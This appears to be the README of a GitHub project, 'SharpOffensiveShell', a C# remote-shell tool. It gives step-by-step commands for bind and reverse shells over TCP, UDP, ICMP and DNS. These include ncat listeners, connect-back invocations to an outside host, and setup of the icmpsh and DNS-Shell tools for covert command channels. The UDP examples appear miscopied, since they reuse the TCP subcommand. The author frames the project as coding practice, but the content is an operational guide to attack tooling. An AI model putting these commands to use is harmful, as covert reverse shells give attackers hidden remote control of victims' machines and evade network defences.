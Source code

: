 # SharpOffensiveShell

A sort of simple shell which support multiple protocols. 

This project is just for improving my C# coding ability. The SharpOffsensiveShell DNS mode use the Native Windows API instead of the Nslookup command to perform DNS requests.

## QuickStart

SharpOffsensiveShell support .NET Framework 2.0

 ```
csc SharpOffensiveShell.cs
 ```

## TCP

**For bind shell**

```
sharpoffensiveshell.exe tcp listen 0.0.0.0 8080
```

```
ncat -v 1.1.1.1 8080
```

**For reverse shell**

```
ncat -lvp 8080
```

```
sharpoffensiveshell.exe tcp connect 1.1.1.1 8080
```

## UDP

**For bind shell**

```
sharpoffensiveshell.exe tcp listen 0.0.0.0 8080
```

```
ncat -u -v 1.1.1.1 8080
```

**For reverse shell**

```
ncat -u -lvp 8080
```

When  reverse connection accepted, type enter to make prompt display.

```
sharpoffensiveshell.exe tcp connect 1.1.1.1 8080
```

## ICMP

```
git clone https://github.com/inquisb/icmpsh
sysctl -w net.ipv4.icmp_echo_ignore_all=1
cd icmpsh && python icmpsh-m.py listenIP reverseConnectIP
```

```
sharpoffensiveshell.exe icmp connect listenIP
```

## DNS

```
pip install dnslib
git clone https://github.com/sensepost/DNS-Shell
```

**For direct mode**

```
python DNS-Shell.py -l -d [Server IP]
sharpoffensiveshell.exe dns direct ServerIP Domain 
```

**For recursive mode**

```
DNS-Shell.py -l -r [Domain]
sharpoffensiveshell.exe dns recurse Domain
```

